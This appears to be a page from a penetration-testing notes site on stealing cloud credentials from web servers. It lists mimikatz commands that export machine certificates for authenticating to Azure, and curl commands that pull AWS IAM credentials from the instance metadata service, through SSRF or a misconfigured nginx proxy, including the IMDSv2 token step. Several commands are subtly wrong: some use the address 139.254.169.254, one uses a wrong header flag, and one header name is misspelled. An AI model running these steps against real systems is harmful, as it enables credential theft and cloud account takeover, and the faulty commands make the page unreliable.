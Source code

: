 ```yaml
---
### The title for the content.
title : "Web Servers"
### If set, this will be used for the page's menu entry (instead of the `title` attribute)
# menuTitle : "Web Servers"
### The title of the page in menu will be prefixed by this HTML content
# pre : ""
### The title of the page in menu will be postfixed by this HTML content
# post : ""
### The description for the content.
description : "Web servers description."
### The datetime assigned to this page.
date : 2020-03-10T16:43:45+01:00
### Appears as the tail of the output URL. A value specified in front matter will override the segment of the URL based on the filename.
# slug : "password-spraying"
### Aliases can be used to create redirects to your page from other URLs.
# aliases : [""]
### Display name of this page modifier. If set, it will be displayed in the footer.
# LastModifierDisplayName : ""
### Email of this page modifier. If set with LastModifierDisplayName, it will be displayed in the footer
# LastModifierEmail : ""
### Table of content (toc) is enabled by default. Set this parameter to true to disable it.
# disableToc : true
### Set the page as a chapter, changing the way it's displayed
# chapter : true
### Hide a menu entry by setting this to true
# hidden : true
### If true, the content will not be rendered unless the --buildDrafts flag is passed to the hugo command.
# draft : true
### Used for ordering your content in lists. Lower weight gets higher precedence. So content with lower weight will come first.
### 0 does nothing !
weight : 0
### Used to tag content. By default this is inherited using cascading from _index.md files
### Only set of you want to overwrite these inherited values.
# tags : [""]
---
```


## Web Servers

### Azure

Use mimikatz to extract certificated and try to authenticitate to Azure with them Mimikatz

```
crypto::capi
privilege::debug
crypto::cng
crypto::certificates /systemstore:local_machine/store:my /export
```

### AWS

#### Instance Metadata

Cloud server hosted on services like EC2 need a way to orient themselfs. Therefore a metadata endpoint was created that runs at 169.254.169.254. This can contain access/secrets keys to AWS and IAM credentials.

This should be reachable from localhost, can be abused after server compromise or SSRF.

IAM credentials are stored here

```
http://139.254.169.254/latest/meta-data/iam/security-credentials/<IAM ROLE NAME>
```

Can be hit externally if nginx is misconfigured on AWS

```
curl --proxy host.domain.com:80 http://169.254.169.254/latest/meta-data/iam/security-credentials/ && echo
```

##### AWS EC2 Instance Metadata service Version 2 (IMDSv2)

Updated in november 2019. v2 requires a PUT request that response with a token.

```
TOKEN=`curl -X PUT "http://139.254.169.254/latest/api/token" -h "X-aws-ec2-metadata-token-ttl-secconds: 21600"`

curl http://169.254.169.254/latest/meta-data/profile -H "X-aws-ec2-metadata-token: $TOKEN"
```